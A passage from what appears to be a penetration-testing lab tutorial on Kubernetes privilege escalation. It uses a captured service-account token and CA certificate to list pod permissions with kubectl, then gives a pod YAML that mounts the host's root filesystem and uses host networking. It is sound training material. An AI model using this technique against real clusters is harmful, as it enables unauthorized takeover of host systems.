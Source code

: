 -----BEGIN CERTIFICATE-----
MIIDBjCCAe6gAwIBAgIBATANBgkqhkiG9w0BAQsFADAVMRMwEQYDVQQDEwptaW5p
&lt;SNIP&gt;
MhxgN4lKI0zpxFBTpIwJ3iZemSfh3pY2UqX03ju4TreksGMkX/hZ2NyIMrKDpolD
602eXnhZAL3+dA==
-----END CERTIFICATE-----
</code></pre>
<p>Now that we have both the <code>token</code> and <code>certificate</code>, we can check the access rights in the Kubernetes cluster. This is commonly used for auditing and verification to guarantee that users have the correct level of access and are not given more privileges than they need. However, we can use it for our purposes and we can inquire of K8s whether we have permission to perform different actions on various resources.</p>
<h4>List Privileges</h4>
<pre><code class="language-shell-session">cry0l1t3@k8:~$ export token=`cat k8.token`
cry0l1t3@k8:~$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list

Resources										Non-Resource URLs	Resource Names	Verbs 
selfsubjectaccessreviews.authorization.k8s.io		[]					[]				[create]
selfsubjectrulesreviews.authorization.k8s.io		[]					[]				[create]
pods											[]					[]				[get create list]
...SNIP...
</code></pre>
<p>Here we can see a few very important information. Besides the selfsubject-resources we can <code>get</code>, <code>create</code>, and <code>list</code> pods which are the resources representing the running container in the cluster. From here on, we can create a <code>YAML</code> file that we can use to create a new container and mount the entire root filesystem from the host system into this container's <code>/root</code> directory. From there on, we could access the host systems files and directories. The <code>YAML</code> file could look like following:</p>
<h4>Pod YAML</h4>
<pre><code class="language-yaml">apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
</code></pre>
<p>Once created, we can now create the new pod and check if it is running as expected.</p>
<h4>Creating a new Pod</h4>
<pre><code class="language-shell-session">cry0l1t3@k8:~$ kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 apply -f privesc.yaml
